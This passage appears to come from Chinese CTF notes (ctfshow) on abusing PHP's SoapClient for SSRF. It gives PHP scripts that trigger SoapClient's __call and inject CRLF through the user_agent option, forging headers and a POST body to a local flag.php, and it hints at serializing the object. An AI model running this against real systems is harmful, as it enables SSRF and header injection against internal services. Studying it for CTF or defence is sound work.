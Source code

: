 ```bash
public __setSoapHeaders(SoapHeader|array|null $headers = null): bool
public __soapCall(
    string $name,
    array $args,
    ?array $options = null,
    SoapHeader|array|null $inputHeaders = null,
    array &$outputHeaders = null
): mixed
}
```

该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 `__call` 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。而`__call`触发很简单，就是当对象访问不存在的方法的时候就会触发。

该类的构造函数如下：

```bash
PHP
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])
- 第一个参数是用来指明是否是 wsdl 模式，将该值设为 null 则表示非 wsdl 模式。
- 第二个参数为一个数组，如果在 wsdl 模式下，此参数可选；如果在非 wsdl 模式下，则必须设置 location 和 uri 选项，其中 location 是要将请求发送到的 SOAP 服务器的 URL，而 uri 是 SOAP 服务的目标命名空间
```

本地测试一下

```bash
<?php

$client=new SoapClient(null,array('uri'=>'127.0.0.1','location'=>'http://127.0.0.1:9999/flag.php'));

$client->AAA();
?>
```

本地监听 9999 端口

```bash
POST /flag.php HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: PHP-SOAP/7.0.12
Content-Type: text/xml; charset=utf-8
SOAPAction: "127.0.0.1#AAA"
Content-Length: 372
```

我们发现 ua 是可控的，可以通过 CRLF 控制报文

```bash
<?php

$ua="test\r\nX-Forwarded-For:127.0.0.1,127.0.0.1,127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length: 13\r\n\r\ntoken=ctfshow";

$client=new SoapClient(null,array('uri'=>'127.0.0.1','location'=>'http://127.0.0.1:9999/flag.php','user_agent'=>$ua));

$client->AAA();
//echo urlencode(serialize($client));
?>
```
